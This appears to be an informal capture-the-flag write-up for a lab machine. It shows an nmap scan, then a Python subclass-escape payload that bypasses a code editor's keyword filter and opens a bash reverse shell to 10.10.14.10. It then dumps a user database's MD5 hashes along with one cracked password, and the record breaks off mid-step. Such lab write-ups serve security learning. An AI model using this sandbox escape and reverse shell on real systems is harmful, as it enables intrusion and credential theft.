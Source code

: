 10.10.11.62


[haxor@skid ~]$ nmap -sC -sV 10.10.11.62
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-29 17:36 UTC
Nmap scan report for 10.10.11.62
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-title: Python Code Editor
|_http-server-header: gunicorn/20.0.4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel






https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/


This is intresting but kinda long


At port :5000 there is a gunicorn server that is a Python Web IDE, but it filters stuff like 'OS', 'SYSTEM' and anything else you can use to execute system commands.

So this combined with https://grenfeldt.dev/2021/04/01/gunicorn-20.0.4-request-smuggling/ we will be able to bypass this filter and get a reverse shell



I use

```
().__class__.__base__.__subclasses__()[317](["/bin/bash", "-c", "ls; bash -i >& /dev/tcp/10.10.14.10/4445 0>&1"])

```

To get a reverse shell. 



then stablize

h


```

╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      1233/python3
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```



then Inside the app 

i  go to the instance and get the database.db


then download it to my home machine


sqlite> SELECT * FROM user
   ...> ;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be

I crack martins hash which is md5.
martin : nafeelswordsmaster

## **🔍 Step 1: Enumeration**

### **1️⃣ Scanned the Target for Sudo Privileges**

We ran:


